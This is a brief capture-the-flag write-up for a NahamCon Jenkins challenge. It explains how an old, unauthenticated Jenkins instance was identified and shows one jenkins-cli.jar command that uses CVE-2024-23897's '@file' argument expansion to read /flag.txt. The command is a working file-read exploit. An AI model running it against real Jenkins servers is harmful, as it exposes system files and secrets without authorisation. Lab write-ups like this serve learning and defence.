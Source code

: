 # The Best Butler
Author: @Kkevsterrr

Truly, he's the best butler - he might even be able to serve up a /flag.txt!

NOTE, this challenge might take a bit more time to start. The flag is located at the root of the filesystem (/flag.txt)


We are provided with a unauthenticated jenkins dashboard:
![alt text](image.png)

We can't really do much since it's unauthenticated.
The jenkins version is very old: **Jenkins 2.332.2**
After some research found out a CVE: CVE-2024-23897 which allows for Arbitrary File read. For this we need access to the jenkins-cli.jar.

Ran the following command: `java -jar jenkins-cli.jar -s http://challenge.nahamcon.com:port/ -webSocket help @/flag.txt`

And sure enough, got the flag.
